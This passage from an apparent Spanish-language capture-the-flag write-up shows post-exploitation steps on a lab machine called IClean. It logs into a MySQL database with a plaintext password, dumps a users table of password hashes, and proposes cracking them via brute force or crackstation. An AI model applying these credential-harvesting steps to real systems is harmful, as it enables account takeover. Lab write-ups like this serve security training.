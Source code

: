 Vamos a conectarnos a la base de datos con estas credenciales.

```
mysql -h 127.0.0.1 -u iclean -D capiclean -p

Enter password: pxCsmnGLckUb
```

Mostramos las tablas.

```
show tables;

+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
```

Mostramos todo el contenido de la tabla `users` en busca de usuarios y contraseñas que podamos utilizar para escalar privilegios.

```
select * from users;

+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

Nos damos cuenta de que hay un usuario llamado `consuela` con una contraseña hasheada. Podemos intentar crackearla con fuerza bruta o comprobar si ya ha sido crackeada previamente en una plataforma como [crackstation](https://crackstation.net/).

![crackstation](../../img/IClean/crackstation-password.png)
